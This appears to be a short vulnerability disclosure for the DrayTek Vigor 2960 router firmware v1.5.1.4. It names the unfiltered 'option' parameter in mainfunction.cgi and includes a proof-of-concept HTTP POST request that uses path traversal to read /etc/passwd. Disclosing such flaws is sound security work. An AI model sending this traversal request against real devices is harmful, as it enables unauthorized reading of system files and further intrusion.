

# Draytek vigor 2960 v1.5.1.4 has arbitrary file read vulnerability

## OverView

Product: Draytek Vigor 2960 v1.5.1.4(the newest version)
Firmware: v1.5.1.4 https://fw.draytek.com.tw/Vigor2960/Firmware/v1.5.1.4/Vigor2960_v1.5.1.4.zip

## Detail  

The vulnerability is in the file `mainfunction.cgi`, function `sub_1DA58`

It doesn’t filter the var `option`, so we can use `/../`to read arbitrary file.


## poc 

```
POST /cgi-bin/mainfunction.cgi HTTP/1.1
Host: xxxxxxxxxxx
Content-Length: 65
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: xxxxxxxxx
Referer: xxxxxxxxx
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: SESSION_ID_VIGOR=7:26EB81E4EA6DC603661320EBD1C938DC
Connection: close
action=getSyslogFile&option=/../../etc/passwd&rtick=1663484572009
```


